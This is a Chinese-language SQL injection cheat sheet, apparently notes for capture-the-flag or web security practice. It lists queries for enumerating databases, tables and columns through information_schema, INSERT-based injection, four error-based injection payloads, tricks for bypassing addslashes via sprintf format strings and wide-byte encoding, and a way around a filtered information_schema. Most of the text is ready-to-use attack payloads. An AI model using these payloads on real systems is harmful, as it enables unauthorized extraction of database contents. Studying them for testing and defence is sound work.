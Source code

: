 #SQL注入

## 爆数据

### information_schema

`````mysql
information_schema的表tables中的列table_schema记录了所有数据库的名字
information_schema的表tables中的列table_name记录了所有数据库的表的名字
information_schema的表columns中的列table_schema记录了所有数据库的名字
information_schema的表columns中的列table_name记录了所有数据库的表的名字
information_schema的表columns中的列column_name记录了所有数据库的表的列的名字
`````

###爆数据库

`database()`

``````mysql
SELECT group_concat(SCHEMA_NAME) FROM information_schema.SCHEMATA;
``````

### 爆表

``````mysql
SELECT group_concat(table_name) FROM information_schema.tables WHERE TABLE_SCHEMA = '数据库名称';
``````

### 爆字段

``````mysql
SELECT group_concat(column_name) FROM information_schema.columns WHERE table_name = '表名称';
``````

## insert 注入

考察insert语法 

``````mysql
INSERT INTO table_name (列1, 列2,...) VALUES (值1, 值2,...,值n)
``````

若值i可以控制,不妨构造如下sql语句

``````mysql
INSERT INTO table_name (列1, 列2,...) VALUES (值1, 值2,...,值i,...,值n),(值1,...,值i-1,(需要的sql语句),值i+1,...,值n)
``````



## 错误注入总结

1.`and (select 1 from (select count(*),concat((*******),floor(rand(0)*2))x from information_schema.tables group by x)a);` 无长度限制

2.`and (extractvalue(1,concat(1,(****))));`只能32位

3.`and (updatexml(1,concat(0x7e,(****),0x7e),1));` mysql >5.1.5

4.`and exp(~(select * from(****)a));`mysql>5.5.5



## 格式化字符串漏洞绕过addslashes

如果我们能在格式化字符串中拼接`%‘ or 1=1#`，进入服务器后addslashes结果变成`%\' or 1=1#`，再拼接入待格式化的sql语句：

```sql
SELECT username, password FROM users where username='%\' or 1=1#'
```

因为`%\`不是任何一种输出类型，格式化后得到：

```sql
SELECT username, password FROM users where username='' or 1=1#'
```

成功逃逸但是可能会出现php报错：`PHP Warning: sprintf(): Too few arguments`
可以使用这样的payload:`%1$'`不会引起相关报错

## 宽字节注入绕过addslashes

`'` 转义之后 变为 `\'` ,若`%df%27`转义成`%df%5c%27` = `運'`引号逃逸

## 绕过information_schema

过滤了 `or` 导致没有办法通过 `information_schema` 库来查询表名，然而其实`MySQL` 5.7 之后的版本，在其自带的 `mysql` 库中，新增了 `innodb_table_stats `和 `innodb_index_stats` 这两张日志表。如果数据表的引擎是`innodb` ，则会在这两张表中记录表、键的信息 。